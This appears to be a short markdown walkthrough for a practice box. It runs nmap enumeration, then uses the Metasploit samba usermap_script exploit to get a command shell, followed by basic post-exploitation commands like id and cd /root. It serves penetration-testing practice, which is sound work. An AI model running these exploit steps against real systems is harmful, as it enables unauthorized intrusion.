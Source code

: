 # First Box

## Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

## Enumeration

First scans

```
# nmap -sV -sC -A -oN <ip address.txt>  <ip address>
```

start and search in metasploit

```
# msfconsole

msf5> search samba
```

Review the excellent ranked modules
```
msf5> info /exploit/linux/samba
msf5> info /exploit/multi/samba/usermap_script
```

Note: can use searchsploit to avoid the startup

```
# searchsploit <service> <version>
```


## Attack

To execute
```
msf5> use /exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) >  show options
msf5 exploit(multi/samba/usermap_script) >  set RHOST <ip address>
msf5 exploit(multi/samba/usermap_script) >  exploit
```

This will create a command shell back in the terminal

## Endgame

summary
```
id
pwd
cd /home/<user>
cd /root
```

